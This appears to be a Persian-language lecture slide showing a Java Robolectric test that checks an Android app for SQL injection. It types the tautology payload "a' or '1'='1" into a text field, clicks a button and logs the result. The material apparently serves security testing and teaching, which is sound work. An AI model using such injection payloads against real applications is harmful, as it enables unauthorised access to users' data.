

اجرای کد بهره‌بردار با Robolectric
1: public void SqlInjection‌Exploitability() throws Exception {
2:    	Activity ma = Robolectric.setupActivity(MainActivity.class);
3:    	Button b= (Button) ma.findViewById(R.id.button);
4:    	EditText et = (EditText) ma.findViewById(R.id.editText);
5:    	TextView tv = (TextView) ma.findViewById(R.id.textview);
6:    	et.setText("a' or '1'='1");
7:    	b.performClick();
8:    	Logger.error((String) tv.getText(),null);
9:}
احسان عدالت
25